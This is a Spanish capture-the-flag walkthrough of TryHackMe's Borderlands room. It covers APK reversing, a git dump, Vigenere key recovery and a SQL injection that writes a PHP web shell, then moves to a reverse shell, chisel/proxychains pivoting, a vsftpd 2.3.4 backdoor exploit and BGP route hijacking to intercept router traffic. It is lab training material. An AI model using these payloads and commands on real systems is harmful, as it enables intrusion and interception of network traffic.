

Es una maquina de por si es catalogada como `hard`, por lo que tendremos que enumerar los servicios en la cual nos encontraremos con un sitio web que es vulnerable a inyección sql del cual tendremos que hacer uso para crear un archivo el cual nos servirá para obtener una shell, luego tendremos que enumerara el servidor en el cual estamos que es un contenedor y asi encontrar otros hosts o los otros routers que en la imagen nos indican. Para obtener el root del contenedor o al menos de otra red usaremos `chisel` y `proxychains` 


- Link [Borderlands](https://tryhackme.com/room/borderlands)
Created by [tryhackme](https://tryhackme.com/p/tryhackme)

Antes de iniciar la maquina nos dan una infraestructura a la que nos enfrentaremos


## Enumeración 

Iniciamos enumerando los puertos abiertos haciendo uso de la herramienta de `nmap`

```php
❯ nmap -p- --open --min-rate 1000 -vvv 10.10.119.56 -Pn -n allportsScan

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Una vez teniendo los puertos abiertos, ahora enumeremos los servicios y versiones

```php
❯ nmap -p22,80 -sC -sV -n -vv -Pn 10.10.119.56 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:0c:68:0b:e3:a5:66:a8:3f:d5:e1:a7:05:13:52:1b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDMayJI2oi1tIk0Usfwfbw4f0ct6W2cuOmsJ6ka1Gi/mTllg2sSGlkUFtPh/eYn5VOVTSjsXAh8Q3u7xcN7MgEMKgbBGcJhhdWZMk0cAQumTWUfUXjR0k+Hbextd3apFW31/xcDJ5sPqDdo4HKaPADPMSN8933gO4X/Sbl9XXhHsTQ/b+PN1FoJIU4ra7Flw2pNM7cJyi8ja/rR1Brca6lRuj+FLSI3j4idS01BN65624i6tKOquRPSgyHvdZyo4S8Enb1EgNdfzX1i+YMmBFvSac489apA7xH36rp6WXKVpub7krrx+E8HrkQrYbngoaZw4YcbCjzswwciWdDk9jVX
|   256 cb:fb:a1:18:1c:30:94:44:87:f3:19:17:c0:e0:14:9f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEiV8Dn01HtsazMwUWREf0F0EQhm+CDly+CfoWToiAcNo87Wugjpp1PxM0YUgq4H8BEbKCPTKSNQacAtDaoVIag=
|   256 6f:46:2c:28:bb:7b:2b:0d:f1:69:8b:21:57:50:09:b8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEyn5tI+wQiM3zJ2CwYiC1PlBMWZANwRlQOHqM5iZKpw
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Context Information Security - HackBack 2
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.119.56:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added mobile apk for beta testing. 
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Podemos observar que tenemos un directorio `.git` del cual podría interesarnos 


Vamos a seguir enumerando los directorios del sitio web, con la herramienta `gobuster`

```php
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.119.56/ -t 100 -x txt,html,php

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.56/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 178]
/index.php            (Status: 200) [Size: 15227]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/info.php             (Status: 200) [Size: 80568]
/api.php              (Status: 200) [Size: 15]
/functions.php        (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 178]

```

En el sitio web nos encontraremos con el siguiente contenido, el que nos interesa es un enlace de descarga de una aplicación móvil.


### Reversing APK
Descargando el apk tenemos la siguiente aplicación. para poder realizar reviersing de la aplicación usaremos `jadx` y así podremos ver el código fuente de la aplicación.

```php
mobile-app-prototype.apk
```

Haciendo uso de jadx-gui podemos ver el código fuente de la aplicación.


Leyendo el código podemos encontrar con algo que podría interesarnos que es `ecrypted_api_key` que hace llamado a un recurso que contiene el api key para luego desencriptarlo.


Para encontrar el recurso descomprimiremos con la misma herramienta, esta vez no de la manera grafica

```php
❯ jadx /home/b0ysie7e/seven/tryhackme/maquinas/Borderlands/content/apk/mobile-app-prototype.apk -d /home/b0ysie7e/seven/tryhackme/maquinas/Borderlands/content/apk
```

Ahora realizaremos una búsqueda recursiva de la palabra `encrypted_api_key` 

```php
❯ grep -r "encrypted_api_key" .
grep: ./mobile-app-prototype.apk.cache/metadata/63/00000563.jadxmd: coincidencia en fichero binario
grep: ./mobile-app-prototype.apk.cache/metadata/60/00000560.jadxmd: coincidencia en fichero binario
./mobile-app-prototype.apk.cache/sources/63/00000563.java:        public static final int encrypted_api_key = 0x7f0b0028;
./mobile-app-prototype.apk.cache/sources/60/00000560.java:        this.apiKey = decrypt(getString(R.string.encrypted_api_key), "#TODO");
grep: ./mobile-app-prototype.apk: coincidencia en fichero binario
./sources/com/example/ctf1/Main2Activity.java:        this.apiKey = decrypt(getString(R.string.encrypted_api_key), "#TODO");
./sources/com/example/ctf1/R.java:        public static final int encrypted_api_key = 0x7f0b0028;
grep: ./resources/classes.dex: coincidencia en fichero binario
./resources/res/values/strings.xml:    <string name="encrypted_api_key">CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo</string>
./resources/res/values/public.xml:    <public type="string" name="encrypted_api_key" id="0x7f0b0028" />

```

Encontramos la api key, el cual la tendremos en cuenta. 

### Dumping .git

Para obtener todo el contenido de `.git` usaremos la herramienta de [git dumper](https://github.com/arthaud/git-dumper), esta herramienta es muy util frente a repositorios y su uso es `git-dumper http://domain` 


Obtenemos los archivos que se encuentran en el directorio `.git` 


Revisamos el código de los archivos del directorio del `.git` que descargamos :

##### - api.php

```php
❯ cat api.php
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtC"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}
/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/
$conn = setup_db_connection();
//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);
$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>                                                                                                                                                                                          
```

### Cifrado Vigenere

Teniendo el api key encriptada y el cipher podemos tener la key, esto haciendo uso del cifrado vigenere 


Teniendo la `C` y `A` nos dará un `C`, luego si tenemos un `B` y `N` nos daría un resultado `O`, siguiendo así deberíamos encontrar la key

```php
CB
AN
CO
```

Como resultado tendríamos la key que es: `CONTEXT`

```php
❯ CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo - cpher
❯ ANDVOWLDLAS5Q8OQZ2tu - plaintext - ANDVOWLDLAS5Q8OQZ2tuIPGcOu2mXk
❯ CONTEXTCONTEXTCONTEXTCONTEXT
```

### GIT

Ahora enumeraremos el github que nos descargamos, en primera tenemos el home.php
##### - home.php

```javascript
.
.
.
$resultsArray = [];
echo ("<ul>");
while ($stmt -> fetch()) {
    echo ('<li><a href="api.php?documentid='.$documentid.'&amp;apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD">'.$document_name.'</a></li>');
    $resultsArray[] = array("documentid" => $documentid, "documentname" => $document_name, "location" => $location);
}
echo ("</ul>");

/*
if (isset($_GET['documentid']) && is_numeric($_GET['documentid']))
{
.
.
.
```

Podemos ver que contiene una apikey que tendremos en cuenta.


Revisando un log de git, encontraremos que una parte del código fue eliminado


Para poder ver el contenido que se borro, iremos a esa versión en concreto y ver que es lo que se borro.

```php
❯ git show b2f776a52fe81a731c6c0fa896e7f9548aafceab
```

haciendo uso de `git show` mas el hash del commit podemos ver lo que se había borrado


Recordando de antes teníamos una ruta que es `/api.php?documentid={}&apikey=` el cual visitaremos en el sitio web


### SQL Injection 

Teniendo la api key y el id del `documentid` encontraremos algunos archivos


```
http://10.10.218.183/api.php?documentid=4&apikey=WEBLhvOJAH8d50Z4y5G5
```


Intentando algunas cosas encontraremos que el sitio es vulnerable a sql injection


Ahora enumeraremos el sitio web para encontrar la base de datos, las tablas, las columnas para luego enumerar el contenido de estas con diversas [payloads](https://github.com/payloadbox/sql-injection-payload-list)

Debemos tener en cuenta el siguiente código


Después  de entender en código anterior, podemos concluir que podemos intentar un [sqli to RCE](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/). Para ello usaremos la siguiente inyección para crear un archivo y usarlo para ejecutar comandos  

```PHP
http://10.10.252.81/api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1%20union%20select%201,%27%3C?php%20system($_GET[%22cmd%22]);%20?%3E%27,3%20into%20outfile%20%27/var/www/html/cmd.php%27%20--%20-
```

## Escalada de privilegios
### app.ctx.ctf

Para automatizar el proceso de crear un archivo y obtener una shell, realice un script básico en Python el cual usare para obtener la Shell en la maquina victima.

Link de script [sqlinjectionRCE](https://github.com/b0ySie7e/Script_to_Resolve_CTF/blob/main/borderlands-thm/sqlIploadFile.py)

```php
❯ python3 sqlIploadFile.py -i 10.9.115.196 -p 4444 -u http://10.10.252.81 
```


Enumerando las interfaces de red obtendremos que tenemos os interfaces, las cuales tendremos que enumerar.


Teniendo las siguiente interfaces de red enumeraremos.

```php
172.16.1.0/24 
172.18.0.0/16 
```

Para descarganos el binario de nmap a la maquina victima de nuestra maquina atacante podemos hacer uso de una función que es una alternativa a curl

```php
set -ex

function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

__curl http://www.google.com/favicon.ico > mine.ico
md5sum mine.ico
```

Haciendo uso de del anterior podemos descargarnos, antes claro iniciando un servidor en nuestra maquina atacante con el que deseamos, yo en particular lo hice con python

#### Enumeración de host

Una vez descargado el binario de nmap, realizaremos la enumeracio de host los cuales estan conectados a las interfaces.


Encontramos una que es la `172.16.1.128` del cual tendremos que enumerar cada uno de los puertos abiertos que tenga.

```php
www-data@app:/tmp$ ./nmap -sn 172.16.1.0/24

Nmap scan report for app.ctx.ctf (172.16.1.10)

Nmap scan report for hackback_router1_1.hackback_r_1_ext (172.16.1.128)
```

Enumeraremos la los puertos, de los cuales tendremos abiertos son el 21,179,2681,2685 


```php
www-data@app:/tmp$ ./nmap -p- --open --min-rate 1000 -Pn -vvv -n  172.16.1.128
PORT     STATE SERVICE REASON
21/tcp   open  ftp     syn-ack
179/tcp  open  bgp     syn-ack
2601/tcp open  zebra   syn-ack
2605/tcp open  bgpd    syn-ack
```

### Pivoting

Ahora para realizar la explotación de los puertos tendremos que realizar un túnel desde nuestra maquina atacante y la maquina comprometida con el fin de tener alcance desde nuestra maquina atacante hasta el router1, esto lo haremos con la herramienta de `chisel` y `proxychains`

Iniciaremos en modo servidor chisel en nuestra maquina atacante.

```php
❯ ./chisel server --reverse --port 9999
2024/02/08 11:20:44 server: Reverse tunnelling enabled
2024/02/08 11:20:44 server: Fingerprint r3rF2j5nDBcAqmrWpC0R+rQAztpA2Ctm4Mc7fZeG1bI=
2024/02/08 11:20:44 server: Listening on http://0.0.0.0:9999
2024/02/08 11:22:15 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

Luego también iniciaremos chisel en la maquina victima con el siguiente comando.

```php
www-data@app:/tmp$ ./chisel client 10.9.115.196:9999 R:socks
2024/02/08 17:09:52 client: Connecting to ws://10.9.115.196:9999
2024/02/08 17:09:53 client: Connected (Latency 184.235744ms)
```

Teniendo la dirección de túnel donde se redirige el túnel, agregaremos en un archivo de configuración que es `/etc/proxychains.conf` en la ultima linea un `sock5 127.0.0.1:1080`. Ahora que lo tenemos configurado podremos escanear y tener conectividad con el router1

Ahora usaremos proxychains para enumerar con nmap.

```php
❯ proxychains4 nmap -p- --open --min-rate 5000 -sT -Pn -n 172.16.1.128
```


Podemos observar que podemos llegar al router1 escaneando el puerto 21. Ahora enumeraremos las versiones y servicios del puerto 21

```php
❯ proxychains4 nmap -p21 -sC -sV -sT -Pn -n 172.16.1.128
```


Enumerando nos encontramos frente a una versión desactualizada la cual podría tener alguna vulnerabilidad.
### router1.ctx.ctf

Buscando encontramos que es vulnerable el [vsftpd 2.3.4 Exploit](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit) por lo que haciendo uso de proxychains podemos obtener una shell

```php
❯ proxychains4 python3 exploit.py 172.16.1.128
```


Obtenemos una shell dentro de la red. Ahora enumeraremos la maquina victima

```php
$ ip add
```

Enumerando las interfaces de red de la maquina podemos observar los siguiente:


También tenemos las siguientes redes

```php
$ ip route
default via 172.16.12.1 dev eth0 
172.16.1.0/24 dev eth1 proto kernel scope link src 172.16.1.128 
172.16.2.0/24 via 172.16.12.102 dev eth0 proto zebra metric 20 
172.16.3.0/24 via 172.16.31.103 dev eth2 proto zebra metric 20 
172.16.12.0/24 dev eth0 proto kernel scope link src 172.16.12.101 
172.16.31.0/24 dev eth2 proto kernel scope link src 172.16.31.101 
```

Haciendo un escaneo en las redes que se muestran anteriormente tenemos dos router mas con los distintos puertos abiertos.
### Router2

```php
$ ./nmap -sn 172.16.12.0/24
Nmap scan report for hackback_router2_1.hackback_r_1_2 (172.16.12.102)
```



```php
$ ./nmap -p- --open --min-rate 5000 -v -n -Pn 172.16.12.102
PORT     STATE SERVICE
179/tcp  open  bgp
2601/tcp open  discp-client
2605/tcp open  nsc-posa

```

### Router3

```php
$ ./nmap -sn 172.16.31.0/24
Nmap scan report for hackback_router3_1.hackback_r_3_1 (172.16.31.103)
```


```php
$ ./nmap -p- --open --min-rate 5000 -v -n -Pn 172.16.31.103
PORT     STATE SERVICE
179/tcp  open  bgp
2601/tcp open  discp-client
2605/tcp open  nsc-posa
```

Teniendo la anterior información de los routers tendremos la siguiente infraestructura 


Investigando un poco sobre los puertos abiertos que tiene cada uno de los routers encontramos algo interesante que es [hijacking attack](https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246)

Vamos a leer la informacion del archivo `/etc/quagga/bgpd.conf` 

```php
$ cat /etc/quagga/bgpd.conf
$ cat /etc/quagga/bgpd.conf
!
hostname router1
password a0ceca89b47161dd49e4f6b1073fc579
log stdout
!
debug bgp updates
!
router bgp 60001
 bgp log-neighbor-changes
 bgp router-id 1.1.1.1
 network 172.16.1.0/24
 
 neighbor 172.16.12.102 remote-as 60002
 neighbor 172.16.12.102 weight 100
 neighbor 172.16.12.102 soft-reconfiguration inbound
 neighbor 172.16.12.102 prefix-list LocalNet in
 
 neighbor 172.16.31.103 remote-as 60003
 neighbor 172.16.31.103 weight 100
 neighbor 172.16.31.103 soft-reconfiguration inbound
 neighbor 172.16.31.103 prefix-list LocalNet in
!
# Deny any changes to routing to the local network
ip prefix-list LocalNet seq 5 deny 172.16.1.0/24 le 32
ip prefix-list LocalNet seq 10 permit 0.0.0.0/0 le 32
!
line vty
!
end
#

```

Segun el blog que revisamos anteriormente vemos que el router esta utilizando BGP con el numero de sistema autonomo 60001. El cual participara en el intercambio de información de enrutamiento de BGP con los otros routers.


También podemos observar que los otros routers están configurados en el 60002 y 60003 por los cuales se están comunicando.

Para poder interceptar los paquetes que viajen de los routers tendremos que realizar algunas configuraciones en el router 1. Ingresaremos al router 1 con el comando `vtysh`


Ejecutaremos `show bgp neighbors` para ver la configuración de BGP, en donde podemos observar lo antes mencionado del numero de sistema autónomo en donde están configurados los routers 


Teniendo en cuenta la información anterior, ahora configuraremos el router para que haga de intermediario y así interceptar la información de los routers.

```php
router1.ctx.ctf# $ config terminal
config terminal
router1.ctx.ctf(config)# $ router bgp 60001
router bgp 60001
router1.ctx.ctf(config-router)# $ network 172.16.2.0/25
network 172.16.2.0/25
router1.ctx.ctf(config-router)# $ network 172.16.3.0/25
network 172.16.3.0/25
router1.ctx.ctf(config-router)# $ end
end
router1.ctx.ctf# $ clear ip bgp *
clear ip bgp *
router1.ctx.ctf# $
```


Ahora usaremos `tcpdump` y debemos interceptar la información que viaja de los routers y nuestra flag.
:P